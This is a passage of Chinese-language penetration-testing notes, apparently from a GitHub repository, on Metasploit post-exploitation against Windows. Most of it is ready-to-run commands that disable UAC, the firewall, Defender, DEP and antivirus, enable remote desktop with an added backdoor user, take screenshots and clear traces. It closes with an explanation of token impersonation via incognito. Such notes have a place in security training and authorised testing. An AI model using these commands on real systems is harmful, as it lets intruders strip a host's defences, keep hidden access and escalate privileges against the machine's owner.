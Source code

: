
msf操作： `reg.exe ADD HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f`

## 关闭杀毒软件和防火墙及开启远程桌面

* 关闭防火墙
	* netsh advfirewall set allprofiles state off (管理员及以上权限)
* 关闭 Denfender (windows 自带服务)
	* net stop windefend
* 关闭DEP (windows 安全机制)
	* bcdedit.exe /set {current} nx AlwaysOff
* 关闭杀毒软件
	* run killav
	* run post/windows/manage/killava


* 开启远程桌面
	* run post/windows/manage/enable_rdp (清楚痕迹： `run multi_console_command -h` 、 `run multi_console_command -r /root/.msf4/loot/20200921222458_default_192.168.2.143_host.windows.cle_083768.txt`)
	* run getgui -e  （`run getgui -h`）
* 开启远程桌面并添加一个新用户  :
	* run getgui -u bean -p ean
* 开启远程桌面并绑定在 8888 端口：
	* run getgui -e -f 8888
* 截图
	* load espia
	* screengrab

* linux远程连接win: `rdesktop`  


## 令牌假冒

假冒令牌可以假冒一个网络中的另一个用户进行各种操作。令牌包括登录会话的安全信息，如用户身份识别、用户组和用户权限。当一个用户登录windows系统时，他被给定的一个访问令牌作为他认证会话的一部分。例如，一个入侵用户可能需要以域管理员处理一个特定任务，当他用令牌便可假冒域管理员进行工作。

概念：

* sessions （登陆终端会产生）
* windows station  (窗口站，每一个进程都会产生)
* desktop (常用的桌面)
* login sessions （不同账号登录产生不同的session,代表不同账号的权限）
	

tokens简介：

* 与进程相关联，进程创建时根据loginsession分配对应token，含有该进程用户账号、组信息、权限信息等。
* 用户每次登录，产生loginsession分配对应token.
* 访问资源时提交token进行身份验证，类似web cookie
* Delegrate Token : 交互式登录
* Impersonate Token : 非交互登录会话

**incognito** : 

* 独立软件，被集成到 msf 的 meterpreter 中
* 不用获取账号密码窃取 token 将自己伪装成合法用户
* 只用于域环境下提权渗透多操作系统
 